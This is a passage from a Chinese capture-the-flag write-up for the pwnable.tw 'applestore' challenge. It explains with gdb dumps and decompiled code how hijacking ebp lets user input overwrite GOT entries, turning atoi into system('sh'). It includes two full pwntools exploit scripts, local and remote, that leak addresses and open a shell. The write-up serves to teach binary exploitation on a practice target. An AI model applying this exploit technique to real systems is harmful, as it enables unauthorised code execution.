在gdb窗口中，验证old ebp确实被替换成了我们想要的0x0804B044（got表尾地址）。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 gef➤ p $ebp $ 1 = (void *) 0xffba66e8 gef➤ p $esp $ 2 = (void *) 0xffba66a0 gef➤ x/20wx 0xffba66e8 0xffba66e8: 0x0804b044 0x08048c46 0xffba6706 0x00000015 0xffba66f8: 0xffba6718 0xf7e26020 0x00000003 0x0a333918 0xffba6708: 0xf7e26000 0x080486f7 0x08048e23 0x00000006 0xffba6718: 0xffba6774 0x87bfaa00 0xf7f8edbc 0xf7f001e5 0xffba6728: 0xffba6748 0x08048cf5 0x0804b068 0x00000000 gef➤ x/20wx 0xffba66a0 0xffba66a0: 0x08048f98 0x00000004 0x0804b028 0x00000000 0xffba66b0: 0x00000004 0xffba66c8 0x00000004 0xffba66dc 0xffba66c0: 0x0804b044 0x00346706 0x0804b028 0x00000001 0xffba66d0: 0xffba66dc 0x0804b044 0x0000000a 0x87bfaa00 0xffba66e0: 0xf7f8d000 0xf7f8d000 0x0804b044 0x08048c46
上述将ebp劫持到got表尾后，程序回到了handler中，函数如下。可以看到which_phone变量在ebp-0x22处（此时ebp-0x22正好在got表中），因此我们可以通过which_phone的输入去更改got表中的内容。
如果我们能把atoi改成system，并且把which_phone的内容改成”sh”，那么就能在atoi(&which_phone)时获得shell。
1 2 3 4 5 6 7 8 9 10 11 12 13 unsigned int handler () char which_phone; unsigned int v2; v2 = __readgsdword(0x14 u); while ( 1 ) { printf ("> " ); fflush(stdout ); my_read(&which_phone, 0x15 u); switch ( atoi(&which_phone) ) { ······
got表最后几项内容：
1 2 3 4 5 6 7 8 9 .got.plt:0804B030 9C B0 04 08 off_804B030 dd offset exit ; DATA XREF: _exit↑r .got.plt:0804B034 A0 B0 04 08 off_804B034 dd offset __libc_start_main .got.plt:0804B034 ; DATA XREF: ___libc_start_main↑r .got.plt:0804B038 A4 B0 04 08 off_804B038 dd offset memset ; DATA XREF: _memset↑r .got.plt:0804B03C A8 B0 04 08 off_804B03C dd offset asprintf ; DATA XREF: _asprintf↑r .got.plt:0804B040 AC B0 04 08 off_804B040 dd offset atoi ; DATA XREF: _atoi↑r .got.plt:0804B040 _got_plt ends .got.plt:0804B040 .data:0804B044 ; =======================================================
atoi函数是got表中最后一项，它的上一项是asprintf。,令asprintf的地址为ebp-0x22，则构造which_phone为”sh\x00\x00” + (mylibc.symbols[‘system’] + libc_addr)，就可以将asprintf和atoi表项分别覆盖为”sh\x00\x00”和”system函数”。因此当执行switch括号中的atoi(&which_phone)时，相当于执行了system(“sh”)。
跟2.2.2中劫持ebp到got表的位置不同，这里需将ebp劫持到myelf.got[‘asprintf’]+0x22，才能使其满足上述条件。
因此payload为：
1 payload = "2\x00" + p32(myelf.got['puts' ]) + p32(1 ) + p32(ebp_addr - 0xc ) + p32(myelf.got['asprintf' ]+0x22 )
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('/lib32/libc-2.23.so' ) myps = process(myelf.path) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) - 0x490 payload = 'y\x00' + p32(heap_addr + 0x8b0 ) + p32(1 ) + p32(0x0804B070 ) + p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) stack_addr = u32(myps.recv(4 )) ebp_addr = stack_addr + 0x20 for i in range (23 ): mysend(delete,'1' ) payload = '4\x00' + p32(myelf.got['puts' ]) + p32(1 ) + p32(ebp_addr-0xc ) + p32(myelf.got['asprintf' ]+0x22 ) mysend(delete,payload) which_phone = "sh\x00\x00" + p32(mylibc.symbols['system' ] + libc_addr) myps.sendlineafter('> ' ,which_phone) myps.interactive()
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 from pwn import *context(arch='i386' ,os='linux' ,log_level='debug' ) myelf = ELF('applestore' ) mylibc = ELF('../libc_32.so.6' ) myps = remote('chall.pwnable.tw' ,10104 ) add = '2' delete = '3' cart = '4' checkout = '5' def mysend (op,payload ): myps.sendlineafter('> ' ,op) myps.sendlineafter('> ' ,payload) for i in range (6 ): mysend(add,'1' ) for i in range (20 ): mysend(add,'2' ) mysend(checkout,'y' ) payload = 'y\x00' +p32(myelf.got['puts' ])+p32(1 )+p32(0x0804B070 )+p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) libc_addr = u32(myps.recv(4 ))-mylibc.symbols['puts' ] myps.recvuntil('28: ' ) heap_addr = u32(myps.recv(4 )) - 0x490 payload = 'y\x00' + p32(heap_addr + 0x8b0 ) + p32(1 ) + p32(0x0804B070 ) + p32(1 ) mysend(cart,payload) myps.recvuntil('27: ' ) stack_addr = u32(myps.recv(4 )) ebp_addr = stack_addr + 0x20 for i in range (23 ): mysend(delete,'1' ) payload = '4\x00' + p32(myelf.got['puts' ]) + p32(1 ) + p32(ebp_addr-0xc ) + p32(myelf.got['asprintf' ]+0x22 ) mysend(delete,payload) which_phone = "sh\x00\x00" + p32(mylibc.symbols['system' ] + libc_addr) myps.sendlineafter('> ' ,which_phone) myps.interactive()
C语言alarm()函数：设置信号传送闹钟
asprintf